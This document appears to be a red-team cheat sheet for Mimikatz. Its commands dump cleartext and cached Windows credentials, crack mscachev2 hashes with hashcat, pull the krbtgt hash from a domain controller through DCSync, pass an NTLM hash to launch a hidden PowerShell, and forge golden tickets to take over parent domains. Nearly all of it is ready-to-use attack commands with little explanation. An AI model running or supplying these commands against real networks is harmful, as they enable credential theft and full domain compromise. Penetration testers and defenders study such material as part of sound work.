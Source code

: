 ### Mimikatz

https://github.com/gentilkiwi/mimikatz/wiki
https://adsecurity.org/?p=2362

Dump Cleartext Credentials
```
    sekurlsa::wdigest
    sekurlsa::logonpasswords
    lsadump::secrets
```

Dump cached domain credentials
```
    lsadump::cache
```

Format mscachev2 as ```$DCC2$10240#username#hash```
```
    cat 'mscachecreds.txt' | awk -F “:” {'print "$DCC2$10240#"$1"#"$2'}
```

Crack mscachev2 format with Hashcat (extremely slow)
```
    ./hashcat -m 2100 -a 0 mscachev2.dump ./wordlists/* -r rules/dive.rule
```

DCSYNC - Remote Hash Dumping from a Domain Controller
```
    mimikatz lsadump::dcsync /user:domain\krbtgt
```

- There is also a CS built-in function for this
- Source: http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/

Pass the Hash
```
    mimikatz sekurlsa::pth /user:localadmin /domain:. /ntlm:21306681c738c3ed2d615e29be1574a3 /run:powershell -w hidden
```

Golden Ticket Creation (File)
``` 
    mimikatz kerberos::golden /user:newadmin /domain:domain.com /sid:S-1-5-21-3683589091-3492174527-1688384936 /groups:501,502,513,512,520,518,519 /krbtgt:<krbtgthash> /ticket:newadmin.tkt
```

Golden Ticket Creation (Pass-The-Ticket) - Create the ticket for your current session
```
    mimikatz kerberos::golden /user:newadmin /domain:domain.com /sid:S-1-5-21-3683589091-3492174527-1688384936 /krbtgt:<krbtgthash> /ptt
```

To create a Golden ticket to own the parent domain, once a child domain controller is compromised you will need the following pieces:
```
    /user:ChildDomainControllerMachineName$  
    /rc4: KRBTGT Hash
    /sid:Child Domain SID
    /domain:FQDN of Child Domain
    /groups:516 
    /sids:ParentSID-516,S-1-5-9 
    /id:ID of Child Domain Controller 
    /ptt
```
